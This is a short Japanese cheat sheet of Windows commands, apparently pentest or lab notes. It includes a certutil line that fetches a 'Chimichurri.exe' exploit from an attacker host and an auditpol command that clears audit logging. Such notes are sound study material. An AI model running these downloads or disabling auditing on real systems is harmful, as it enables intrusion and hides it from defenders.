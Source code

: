 ##### 認証情報を消さない
```bash
runas /user:Administrator /savecred "notepad.exe"
```
※通常は使用しない

### 名前解決

#### nslookup
```bash
nslookup -type=TXT ドメイン
```

### ハッシュ値の取得

#### certutil
```bash
certutil -hashfile ファイル名 sha1
```
![image](https://github.com/user-attachments/assets/fc7eb7a4-8a53-47cb-ab03-228bf7e7e4f7)

### ファイル関連

#### ファイル探索

##### findstr
```bash
C:\>tasklist | findstr CloudMe
```

##### gc
![image](https://github.com/user-attachments/assets/761eb345-177f-4d8d-b461-b8323c1ce99b)

#### Web
```bash
certutil -urlcache -f http://10.10.14.2:8000/Chimichurri.exe exploit.exe
```
![image](https://github.com/user-attachments/assets/0e89cadd-d41c-471d-9dae-8fc0d7a61cde)

#### 監査ポリシー
- ポリシーの確認
```bash
auditpol /get /category:*
```

- ポリシーの有効化
```bash
auditpol /set /category:"system","account logon" /success:enable /failure:enable
```

- 監査無し
```bash
auditpol /clear /y
```

